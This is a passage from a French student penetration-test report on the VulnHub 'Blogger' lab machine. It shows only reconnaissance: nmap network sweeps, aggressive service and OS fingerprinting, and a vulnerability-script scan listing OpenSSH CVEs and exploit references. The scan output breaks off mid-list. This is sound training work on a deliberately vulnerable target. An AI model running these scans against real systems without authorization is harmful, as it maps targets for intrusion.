

# Rapport E5ATTACK

## Sommaire

1. [Introduction](#introduction)
2. [Découverte des vulnérabilités de la machine](#découverte-des-vulnérabilités-de-la-machine)
3. [Liste des vulnérabilités de la machine](#vulnérabilités-de-la-machine)
4. [Découverte des vulnérabilités du serveur web](#découverte-des-vulnérabilités-du-serveur-web)
5. [Liste des vulnérabilités du serveur web](#vulnérabilités-du-serveur-web)
6. [Conclusion](#conclusion)

## Introduction

### Contexte

Dans le cadre de l'analyse de sécurité des serveurs de l'entreprise, une exploitation de plusieurs failles a été signalée, soulevant des inquiétudes quant à la sécurité des systèmes en place. Ce rapport de test d'intrusion vise à identifier, analyser et comprendre les vulnérabilités potentielles de la machine virtuelle attaquée, Blogger 1,625, afin de fournir une évaluation claire des risques associés et de proposer des mesures correctives adaptées.

Au cours de cette analyse, nous avons simulé des attaques ciblées sur différents aspects du système, avec pour objectif d'exploiter les failles de sécurité présentes et d’évaluer la possibilité de compromission des serveurs. Les résultats obtenus sont détaillés ci-dessous, accompagnés de recommandations pratiques pour durcir l'infrastructure et réduire les risques de futures intrusions.

### Membres du groupes

- Gauthier DELZENNE
- Théo NARBERGER

### Objectif

L'objectif de cet exercice est d'identifier et d'exploiter les vulnérabilités de la machine "Blogger 1,675".

### Machine cible :

- [Blogger](https://www.vulnhub.com/entry/blogger-1,675/)

### Infrastructure :



## Découverte des vulnérabilités de la machine

Nous avons commencé par scanner la machine cible avec <i>[nmap](https://www.kali.org/tools/nmap/)</i> pour découvrir les services exposés et les ports ouverts :

```bash
msf6 > nmap 192.168.0.0/24
[*] exec: nmap 192.168.0.0/24

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-30 10:58 CET

[...]

Nmap scan report for blogger.thm (192.168.0.75)
Host is up (0.00048s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:95:3D:29 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

[...]

Nmap done: 256 IP addresses (10 hosts up) scanned in 19.20 seconds
```

Nous avons découvert deux services exposés : SSH sur le port 22 et HTTP sur le port 80.

Nous avons ensuite utilisé <i>[nmap](https://www.kali.org/tools/nmap/)</i> pour avoir plus de détails sur ces services.  
Voici le détails des arguments que nous avons utilisé pour le scan :

- Pn : Ignore la détection des hôtes (considère que l'hôte est actif, même s'il ne répond pas aux pings).
- O : Tente d'identifier le système d'exploitation de la cible.
- A : Active des fonctionnalités avancées (détection du système d'exploitation, versions des services, scripts Nmap par défaut, et traceroute).
- sV : Détecte les versions des services en cours d'exécution sur les ports ouverts.
- sS : Effectue un scan furtif en mode SYN (TCP SYN scan).
- sC : Utilise des scripts Nmap par défaut pour obtenir plus d'informations sur la cible.
- vv : Active le mode verbeux, niveau 2 (affiche plus de détails pendant le scan).

```bash
msf6 > nmap -Pn -O -A -sV -sS -sC -vv 192.168.0.75
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-30 11:01 CET
[*] Nmap: NSE: Loaded 157 scripts for scanning.
[*] Nmap: NSE: Script Pre-scanning.
[*] Nmap: NSE: Starting runlevel 1 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: NSE: Starting runlevel 3 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: Initiating ARP Ping Scan at 11:01
[*] Nmap: Scanning 192.168.0.75 [1 port]
[*] Nmap: Completed ARP Ping Scan at 11:01, 0.04s elapsed (1 total hosts)
[*] Nmap: Initiating SYN Stealth Scan at 11:01
[*] Nmap: Scanning blogger.thm (192.168.0.75) [1000 ports]
[*] Nmap: Discovered open port 22/tcp on 192.168.0.75
[*] Nmap: Discovered open port 80/tcp on 192.168.0.75
[*] Nmap: Completed SYN Stealth Scan at 11:01, 0.39s elapsed (1000 total ports)
[*] Nmap: Initiating Service scan at 11:01
[*] Nmap: Scanning 2 services on blogger.thm (192.168.0.75)
[*] Nmap: 'Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;''
[*] Nmap: Completed Service scan at 11:01, 6.08s elapsed (2 services on 1 host)
[*] Nmap: Initiating OS detection (try #1) against blogger.thm (192.168.0.75)
[*] Nmap: NSE: Script scanning 192.168.0.75.
[*] Nmap: NSE: Starting runlevel 1 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.36s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.01s elapsed
[*] Nmap: NSE: Starting runlevel 3 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: Nmap scan report for blogger.thm (192.168.0.75)
[*] Nmap: Host is up, received arp-response (0.00056s latency).
[*] Nmap: Scanned at 2025-01-30 11:01:27 CET for 8s
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE REASON         VERSION
[*] Nmap: 22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
[*] Nmap: | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxOfkU+Q4dfPLCyiHlcl3+Rl8fCPL9YJ7GzzYAG8Vl75YbD21HXms6zE8KDBFuMu34+hvYCGxHIZVtZRMf9MFHdamqdx4YC++ZU7EFYy4eSQjPSukpIZOz4S4md5AmMFNucvvVOq9XVhWnxy86WSZzLO62y7ygqjG6w3sIXlrOjalqCUVgD60wnk53PW6Etkr6kpJwtrBXl60I6LOrb8hmTO63copeWbcYwi4OhlYAKV9EJjAFl9OohQX7uTR7uzoYPwaztG2HGQw/LQEQeV6KAfL+cb5QQMnP3ZW3r/nMKKZW3zw5h20sVaeoNcgVZ9ANv3EvldJqrRRG/R1wYJHV
[*] Nmap: |   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
[*] Nmap: | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE6ost/PYmYfXkZxdW+XZSdvrXfTYifdCxxeASUc4llXCR9sRC0lxNP0AnjWlQq+xnAg95xDHNYSsNoPDaaqgHE=
[*] Nmap: |   256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
[*] Nmap: |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNUmat0TujFtlTGYNCBEuh1P+MbsML6IJihp6I7mERS
[*] Nmap: 80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
[*] Nmap: | http-methods:
[*] Nmap: |_  Supported Methods: GET HEAD POST OPTIONS
[*] Nmap: |_http-title: Blogger | Home
[*] Nmap: |_http-server-header: Apache/2.4.18 (Ubuntu)
[*] Nmap: MAC Address: 08:00:27:95:3D:29 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 3.X|4.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
[*] Nmap: OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.95%E=4%D=1/30%OT=22%CT=1%CU=41537%PV=Y%DS=1%DC=D%G=Y%M=080027%T
[*] Nmap: OS:M=679B4DFF%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I
[*] Nmap: OS:%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O
[*] Nmap: OS:5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6
[*] Nmap: OS:=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
[*] Nmap: OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
[*] Nmap: OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
[*] Nmap: OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
[*] Nmap: OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
[*] Nmap: OS:N%T=40%CD=S)
[*] Nmap: Uptime guess: 0.020 days (since Thu Jan 30 10:32:44 2025)
[*] Nmap: Network Distance: 1 hop
[*] Nmap: TCP Sequence Prediction: Difficulty=256 (Good luck!)
[*] Nmap: IP ID Sequence Generation: All zeros
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.56 ms blogger.thm (192.168.0.75)
[*] Nmap: NSE: Script Post-scanning.
[*] Nmap: NSE: Starting runlevel 1 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: NSE: Starting runlevel 3 (of 3) scan.
[*] Nmap: Initiating NSE at 11:01
[*] Nmap: Completed NSE at 11:01, 0.00s elapsed
[*] Nmap: Read data files from: /usr/share/nmap
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 8.75 seconds
[*] Nmap: Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.286KB)
```

Nous avons découvert que la machine cible tourne sous Ubuntu 16.04 et qu'elle expose un serveur Apache 2.4.18.

Nous avons ensuite scanné avec les scripts de <i>[nmap](https://www.kali.org/tools/nmap/)</i> pour les vulnérabilités pour trouver des failles connues :
Voici le détails des arguments que nous avons utilisé pour le scan :

- script vuln : Exécute les scripts de vulnérabilité sur les ports ouverts.

```bash
msf6 > nmap --script vuln 192.168.0.75
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-30 11:07 CET
[*] Nmap: Pre-scan script results:
[*] Nmap: | broadcast-avahi-dos:
[*] Nmap: |   Discovered hosts:
[*] Nmap: |     224.0.0.251
[*] Nmap: |   After NULL UDP avahi packet DoS (CVE-2011-1002).
[*] Nmap: |_  Hosts are all up (not vulnerable).
[*] Nmap: Nmap scan report for blogger.thm (192.168.0.75)
[*] Nmap: Host is up (0.00043s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | vulners:
[*] Nmap: |   cpe:/a:openbsd:openssh:7.2p2:
[*] Nmap: |             95499236-C9FE-56A6-9D7D-E943A24B633A    10.0    https://vulners.com/githubexploit/95499236-C9FE-56A6-9D7D-E943A24B633A  *EXPLOIT*
[*] Nmap: |             2C119FFA-ECE0-5E14-A4A4-354A2C38071A    10.0    https://vulners.com/githubexploit/2C119FFA-ECE0-5E14-A4A4-354A2C38071A  *EXPLOIT*
[*] Nmap: |             CVE-2023-38408  9.8     https://vulners.com/cve/CVE-2023-38408
[*] Nmap: |             B8190CDB-3EB9-5631-9828-8064A1575B23    9.8     https://vulners.com/githubexploit/B8190CDB-3EB9-5631-9828-8064A1575B23  *EXPLOIT*
[*] Nmap: |             8FC9C5AB-3968-5F3C-825E-E8DB5379A623    9.8     https://vulners.com/githubexploit/8FC9C5AB-3968-5F3C-825E-E8DB5379A623  *EXPLOIT*
[*] Nmap: |             8AD01159-548E-546E-AA87-2DE89F3927EC    9.8     https://vulners.com/githubexploit/8AD01159-548E-546E-AA87-2DE89F3927EC  *EXPLOIT*
[*] Nmap: |             887EB570-27D3-11EE-ADBA-C80AA9043978    9.8     https://vulners.com/freebsd/887EB570-27D3-11EE-ADBA-C80AA9043978
[*] Nmap: |             5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A    9.8     https://vulners.com/githubexploit/5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A  *EXPLOIT*
[*] Nmap: |             33D623F7-98E0-5F75-80FA-81AA666D1340    9.8     https://vulners.com/githubexploit/33D623F7-98E0-5F75-80FA-81AA666D1340  *EXPLOIT*
[*] Nmap: |             0221525F-07F5-5790-912D-F4B9E2D1B587    9.8     https://vulners.com/githubexploit/0221525F-07F5-5790-912D-F4B9E2D1B587  *EXPLOIT*
[*] Nmap: |             PACKETSTORM:179290      8.1     https://vulners.com/packetstorm/PACKETSTORM:179290      *EXPLOIT*
[*] Nmap: |             FB2E9ED1-43D7-585C-A197-0D6628B20134    8.1     https://vulners.com/githubexploit/FB2E9ED1-43D7-585C-A197-0D6628B20134  *EXPLOIT*
[*] Nmap: |             FA3992CE-9C4C-5350-8134-177126E0BD3F    8.1     https://vulners.com/githubexploit/FA3992CE-9C4C-5350-8134-177126E0BD3F  *EXPLOIT*
[*] Nmap: |             F8981437-1287-5B69-93F1-657DFB1DCE59    8.1     https://vulners.com/githubexploit/F8981437-1287-5B69-93F1-657DFB1DCE59  *EXPLOIT*
[*] Nmap: |             F58A5CB2-2174-586F-9CA9-4C47F8F38B5E    8.1     https://vulners.com/githubexploit/F58A5CB2-2174-586F-9CA9-4C47F8F38B5E  *EXPLOIT*
[*] Nmap: |             F1A00122-3797-11EF-B611-84A93843EB75    8.1     https://vulners.com/freebsd/F1A00122-3797-11EF-B611-84A93843EB75
[*] Nmap: |             EFD615F0-8F17-5471-AA83-0F491FD497AF    8.1     https://vulners.com/githubexploit/EFD615F0-8F17-5471-AA83-0F491FD497AF  *EXPLOIT*
[*] Nmap: |             EC20B9C2-6857-5848-848A-A9F430D13EEB    8.1     https://vulners.com/githubexploit/EC20B9C2-6857-5848-848A-A9F430D13EEB  *EXPLOIT*
[*] Nmap: |             EB13CBD6-BC93-5F14-A210-AC0B5A1D8572    8.1     https://vulners.com/githubexploit/EB13CBD6-BC93-5F14-A210-AC0B5A1D8572  *EXPLOIT*
[*] Nmap: |             E660E1AF-7A87-57E2-AEEF-CA14E1FEF7CD    8.1     https://vulners.com/githubexploit/E660E1AF-7A87-57E2-AEEF-CA14E1FEF7CD  *EXPLOIT*
[*] Nmap: |             E543E274-C20A-582A-8F8E-F8E3F381C345    8.1     https://vulners.com/githubexploit/E543E274-C20A-582A-8F8E-F8E3F381C345  *EXPLOIT*
[*] Nmap: |             E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257    8.1     https://vulners.com/githubexploit/E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257  *EXPLOIT*
[*] Nmap: |             E24EEC0A-40F7-5BBC-9E4D-7B13522FF915    8.1     https://vulners.com/githubexploit/E24EEC0A-40F7-5BBC-9E4D-7B13522FF915  *EXPLOIT*
[*] Nmap: |             DC798E98-BA77-5F86-9C16-0CF8CD540EBB    8.1     https://vulners.com/githubexploit/DC798E98-BA77-5F86-9C16-0CF8CD540EBB  *EXPLOIT*
[*] Nmap: |             DC473885-F54C-5F76-BAFD-0175E4A90C1D    8.1     https://vulners.com/githubexploit/DC473885-F54C-5F76-BAFD-0175E4A90C1D  *EXPLOIT*
[*] Nmap: |             D85F08E9-DB96-55E9-8DD2-22F01980F360    8.1     https://vulners.com/githubexploit/D85F08E9-DB96-55E9-8DD2-22F01980F360  *EXPLOIT*
[*] Nmap: |             D572250A-BE94-501D-90C4-14A6C9C0AC47    8.1     https://vulners.com/githubexploit/D572250A-BE94-501D-90C4-14A6C9C0AC47  *EXPLOIT*
[*] Nmap: |             D1E049F1-393E-552D-80D1-675022B26911    8.1     https://vulners.com/githubexploit/D1E049F1-393E-552D-80D1-675022B26911  *EXPLOIT*
[*] Nmap: |             CFEBF7AF-651A-5302-80B8-F8146D5B33A6    8.1     https://vulners.com/githubexploit/CFEBF7AF-651A-5302-80B8-F8146D5B33A6  *EXPLOIT*
[*] Nmap: |             CF80DDA9-42E7-5E06-8DA8-84C72658E191    8.1     https://vulners.com/githubexploit/CF80DDA9-42E7-5E06-8DA8-84C72658E191  *EXPLOIT*
[*] Nmap: |             CB2926E1-2355-5C82-A42A-D4F72F114F9B    8.1     https://vulners.com/githubexploit/CB2926E1-2355-5C82-A42A-D4F72F114F9B  *EXPLOIT*
[*] Nmap: |             C6FB6D50-F71D-5870-B671-D6A09A95627F    8.1     https://vulners.com/githubexploit/C6FB6D50-F71D-5870-B671-D6A09A95627F  *EXPLOIT*
[*] Nmap: |             C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0    8.1     https://vulners.com/githubexploit/C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0  *EXPLOIT*
[*] Nmap: |             C185263E-3E67-5550-B9C0-AB9C15351960    8.1     https://vulners.com/githubexploit/C185263E-3E67-5550-B9C0-AB9C15351960  *EXPLOIT*
[*] Nmap: |             BDA609DA-6936-50DC-A325-19FE2CC68562    8.1     https://vulners.com/githubexploit/BDA609DA-6936-50DC-A325-19FE2CC68562  *EXPLOIT*
[*] Nmap: |             AA539633-36A9-53BC-97E8-19BC0E4E8D37    8.1     https://vulners.com/githubexploit/AA539633-36A9-53BC-97E8-19BC0E4E8D37  *EXPLOIT*
[*] Nmap: |             A377249D-3C48-56C9-98D6-C47013B3A043    8.1     https://vulners.com/githubexploit/A377249D-3C48-56C9-98D6-C47013B3A043  *EXPLOIT*
[*] Nmap: |             9CDFE38D-80E9-55D4-A7A8-D5C20821303E    8.1     https://vulners.com/githubexploit/9CDFE38D-80E9-55D4-A7A8-D5C20821303E  *EXPLOIT*
[*] Nmap: |             9A6454E9-662A-5A75-8261-73F46290FC3C    8.1     https://vulners.com/githubexploit/9A6454E9-662A-5A75-8261-73F46290FC3C  *EXPLOIT*
[*] Nmap: |             92254168-3B26-54C9-B9BE-B4B7563586B5    8.1     https://vulners.com/githubexploit/92254168-3B26-54C9-B9BE-B4B7563586B5  *EXPLOIT*
[*] Nmap: |             91752937-D1C1-5913-A96F-72F8B8AB4280    8.1     https://vulners.com/githubexploit/91752937-D1C1-5913-A96F-72F8B8AB4280  *EXPLOIT*
[*] Nmap: |             906CD901-3758-5F2C-8FA6-386BF9378AB3    8.1     https://vulners.com/githubexploit/906CD901-3758-5F2C-8FA6-386BF9378AB3  *EXPLOIT*
[*] Nmap: |             896B5857-A9C8-5342-934A-74F1EA1934CF    8.1     https://vulners.com/githubexploit/896B5857-A9C8-5342-934A-74F1EA1934CF  *EXPLOIT*
[*] Nmap: |             81F0C05A-8650-5DE8-97E9-0D89F1807E5D    8.1     https://vulners.com/githubexploit/81F0C05A-8650-5DE8-97E9-0D89F1807E5D  *EXPLOIT*
[*] Nmap: |             7C7167AF-E780-5506-BEFA-02E5362E8E48    8.1     https://vulners.com/githubexploit/7C7167AF-E780-5506-BEFA-02E5362E8E48  *EXPLOIT*
[*] Nmap: |             7AA8980D-D89F-57EB-BFD1-18ED3AB1A7DD    8.1     https://vulners.com/githubexploit/7AA8980D-D89F-57EB-BFD1-18ED3AB1A7DD  *EXPLOIT*
[*] Nmap: |             79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC    8.1     https://vulners.com/githubexploit/79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC  *EXPLOIT*
[*] Nmap: |             795762E3-BAB4-54C6-B677-83B0ACC2B163    8.1     https://vulners.com/githubexploit/795762E3-BAB4-54C6-B677-83B0ACC2B163  *EXPLOIT*
[*] Nmap: |             77DAD6A9-8142-5591-8605-C5DADE4EE744    8.1     https://vulners.com/githubexploit/77DAD6A9-8142-5591-8605-C5DADE4EE744  *EXPLOIT*
[*] Nmap: |             743E5025-3BB8-5EC4-AC44-2AA679730661    8.1     https://vulners.com/githubexploit/743E5025-3BB8-5EC4-AC44-2AA679730661  *EXPLOIT*
[*] Nmap: |             73A19EF9-346D-5B2B-9792-05D9FE3414E2    8.1     https://vulners.com/githubexploit/73A19EF9-346D-5B2B-9792-05D9FE3414E2  *EXPLOIT*
[*] Nmap: |             6FD8F914-B663-533D-8866-23313FD37804    8.1     https://vulners.com/githubexploit/6FD8F914-B663-533D-8866-23313FD37804  *EXPLOIT*
[*] Nmap: |             6E81EAE5-2156-5ACB-9046-D792C7FAF698    8.1     https://vulners.com/githubexploit/6E81EAE5-2156-5ACB-9046-D792C7FAF698  *EXPLOIT*
[*] Nmap: |             6B78D204-22B0-5D11-8A0C-6313958B473F    8.1     https://vulners.com/githubexploit/6B78D204-22B0-5D11-8A0C-6313958B473F  *EXPLOIT*
[*] Nmap: |             649197A2-0224-5B5C-9C4E-B5791D42A9FB    8.1     https://vulners.com/githubexploit/649197A2-0224-5B5C-9C4E-B5791D42A9FB  *EXPLOIT*
[*] Nmap: |             608FA50C-AEA1-5A83-8297-A15FC7D32A7C    8.1     https://vulners.com/githubexploit/608FA50C-AEA1-5A83-8297-A15FC7D32A7C  *EXPLOIT*
[*] Nmap: |             5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E    8.1     https://vulners.com/githubexploit/5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E  *EXPLOIT*
[*] Nmap: |             5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD    8.1     https://vulners.com/githubexploit/5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD  *EXPLOIT*
[*] Nmap: |             58750D49-7302-11EF-8C95-195D300202B3    8.1     https://vulners.com/freebsd/58750D49-7302-11EF-8C95-195D300202B3
[*] Nmap: |             56F97BB2-3DF6-5588-82AF-1D7B77F9AD45    8.1     https://vulners.com/githubexploit/56F97BB2-3DF6-5588-82AF-1D7B77F9AD45  *EXPLOIT*
[*] Nmap: |             53BCD84F-BD22-5C9D-95B6-4B83627AB37F    8.1     https://vulners.com/githubexploit/53BCD84F-BD22-5C9D-95B6-4B83627AB37F  *EXPLOIT*
[*] Nmap: |             535C5505-40BC-5D18-B346-1FDF036F0B08    8.1     https://vulners.com/githubexploit/535C5505-40BC-5D18-B346-1FDF036F0B08  *EXPLOIT*
[*] Nmap: |             48603E8F-B170-57EE-85B9-67A7D9504891    8.1     https://vulners.com/githubexploit/48603E8F-B170-57EE-85B9-67A7D9504891  *EXPLOIT*
[*] Nmap: |             4748B283-C2F6-5924-8241-342F98EEC2EE    8.1     https://vulners.com/githubexploit/4748B283-C2F6-5924-8241-342F98EEC2EE  *EXPLOIT*
[*] Nmap: |             452ADB71-199C-561E-B949-FCDE6288B925    8.1     https://vulners.com/githubexploit/452ADB71-199C-561E-B949-FCDE6288B925  *EXPLOIT*
[*] Nmap: |             418FD78F-82D2-5748-9EE9-CAFC34111864    8.1     https://vulners.com/githubexploit/418FD78F-82D2-5748-9EE9-CAFC34111864  *EXPLOIT*
[*] Nmap: |             3D426DCE-96C7-5F01-B0AB-4B11C9557441    8.1     https://vulners.com/githubexploit/3D426DCE-96C7-5F01-B0AB-4B11C9557441  *EXPLOIT*
[*] Nmap: |             31CC906F-9328-5944-B370-FBD98DF0DDD3    8.1     https://vulners.com/githubexploit/31CC906F-9328-5944-B370-FBD98DF0DDD3  *EXPLOIT*
[*] Nmap: |             2FFB4379-2BD1-569F-9F38-1B6D272234C9    8.1     https://vulners.com/githubexploit/2FFB4379-2BD1-569F-9F38-1B6D272234C9  *EXPLOIT*
[*] Nmap: |             1FFDA397-F480-5C74-90F3-060E1FE11B2E    8.1     https://vulners.com/githubexploit/1FFDA397-F480-5C74-90F3-060E1FE11B2E  *EXPLOIT*
[*] Nmap: |             1F7A6000-9E6D-511C-B0F6-7CADB7200761    8.1     https://vulners.com/githubexploit/1F7A6000-9E6D-511C-B0F6-7CADB7200761  *EXPLOIT*
[*] Nmap: |             1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99    8.1     https://vulners.com/githubexploit/1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99  *EXPLOIT*
[*] Nmap: |             1AB9F1F4-9798-59A0-9213-1D907E81E7F6    8.1     https://vulners.com/githubexploit/1AB9F1F4-9798-59A0-9213-1D907E81E7F6  *EXPLOIT*
[*] Nmap: |             1A779279-F527-5C29-A64D-94AAA4ADD6FD    8.1     https://vulners.com/githubexploit/1A779279-F527-5C29-A64D-94AAA4ADD6FD  *EXPLOIT*
[*] Nmap: |             15C36683-070A-5CC1-B21F-5F0BF974D9D3    8.1     https://vulners.com/githubexploit/15C36683-070A-5CC1-B21F-5F0BF974D9D3  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-39674        8.1     https://vulners.com/zdt/1337DAY-ID-39674        *EXPLOIT*
[*] Nmap: |             123C2683-74BE-5320-AA3A-C376C8E3A992    8.1     https://vulners.com/githubexploit/123C2683-74BE-5320-AA3A-C376C8E3A992  *EXPLOIT*
[*] Nmap: |             11F020AC-F907-5606-8805-0516E06160EE    8.1     https://vulners.com/githubexploit/11F020AC-F907-5606-8805-0516E06160EE  *EXPLOIT*
[*] Nmap: |             108E1D25-1F7E-534C-97CD-3F6045E32B98    8.1     https://vulners.com/githubexploit/108E1D25-1F7E-534C-97CD-3F6045E32B98  *EXPLOIT*
[*] Nmap: |             0FC4BE81-312B-51F4-9D9B-66D8B5C093CD    8.1     https://vulners.com/githubexploit/0FC4BE81-312B-51F4-9D9B-66D8B5C093CD  *EXPLOIT*
[*] Nmap: |             0F9B3655-C7D4-55A9-8EB5-2EAD9CEAB180    8.1     https://vulners.com/githubexploit/0F9B3655-C7D4-55A9-8EB5-2EAD9CEAB180  *EXPLOIT*
[*] Nmap: |             0E9294FD-6B44-503A-84C2-C6E76E53B0B7    8.1     https://vulners.com/githubexploit/0E9294FD-6B44-503A-84C2-C6E76E53B0B7  *EXPLOIT*
[*] Nmap: |             0A8CA57C-ED38-5301-A03A-C841BD3082EC    8.1     https://vulners.com/githubexploit/0A8CA57C-ED38-5301-A03A-C841BD3082EC  *EXPLOIT*
[*] Nmap: |             PACKETSTORM:140070      7.8     https://vulners.com/packetstorm/PACKETSTORM:140070      *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    7.8     https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    *EXPLOIT*
[*] Nmap: |             CVE-2020-15778  7.8     https://vulners.com/cve/CVE-2020-15778
[*] Nmap: |             CVE-2016-10012  7.8     https://vulners.com/cve/CVE-2016-10012
[*] Nmap: |             CVE-2015-8325   7.8     https://vulners.com/cve/CVE-2015-8325
[*] Nmap: |             ADCCEFD1-7080-11E6-A2CB-C80AA9043978    7.8     https://vulners.com/freebsd/ADCCEFD1-7080-11E6-A2CB-C80AA9043978
[*] Nmap: |             1337DAY-ID-26494        7.8     https://vulners.com/zdt/1337DAY-ID-26494        *EXPLOIT*
[*] Nmap: |             SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
[*] Nmap: |             PACKETSTORM:173661      7.5     https://vulners.com/packetstorm/PACKETSTORM:173661      *EXPLOIT*
